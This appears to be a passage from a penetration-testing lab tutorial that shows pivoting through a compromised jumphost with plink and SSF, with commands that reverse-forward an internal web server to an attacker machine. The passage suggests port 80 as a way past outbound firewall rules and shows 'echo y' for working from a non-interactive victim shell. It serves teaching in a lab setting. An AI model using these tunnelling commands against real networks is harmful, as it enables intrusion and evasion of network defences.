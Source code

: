 </div>

## plink

Using plink for remote port forwarding looks like:

<pre><code class="bash">doeti &lt;id_jumphost&gt; su jumphost
cd ~
echo y | wine plink.exe -x -a -T -C -noagent -ssh -l &quot;outside&quot; -pw &quot;outside&quot; -R 127.0.0.1:4444:192.168.2.50:80 192.168.1.3 -N
</code></pre>

The `echo y` delivers the character `y` so that you don't have to enter it anymore.
Often this is what you want from a pentester perspective since if you get a shell into your victim and have a non-interactive shell, it is not possible to follow commands which wants interaction from you.

After you send the server to your box you can open it there
<pre><code class="bash">doeti &lt;id_outside&gt; bash
<br>
netstat -atnp | grep 4444
tcp        0      0 127.0.0.1:4444          0.0.0.0:*               LISTEN      -     
<br>
curl 127.0.0.1:4444
&lt;html&gt;&lt;body&gt;&lt;h1&gt;Hi from inside server&lt;/h1&gt;&lt;/body&gt;&lt;/html&gt;
</code></pre>

## SSF

And with SSF:

First start the ssf server at your attacker box.

<pre><code class="bash">doeti &lt;id_outside&gt; bash 

cd ssf-linux-x86_64-3.0.0
./ssfd -p 80
</code></pre>

Side note: In this case we opened it at port 80. 80 is the port for HTTP which often is not blocked from the firewall for outbound traffic. 
So from an attacker perspective this could be a good choice if you encounter problems reaching the system.

To start a server for ports below 1024 you need to be root. Since you are admin of the kali box this should be no problem.

After you started the server enter jumphost representing a hacked victim and reverse port forward the internal system to you:

<pre><code class="bash">doeti &lt;id_jumphost&gt; bash 
su jumphost
cd ~
cd ssf-linux-x86_64-3.0.0
./ssf -R 8888:192.168.2.50:80 192.168.1.3 -p 80
</code></pre>
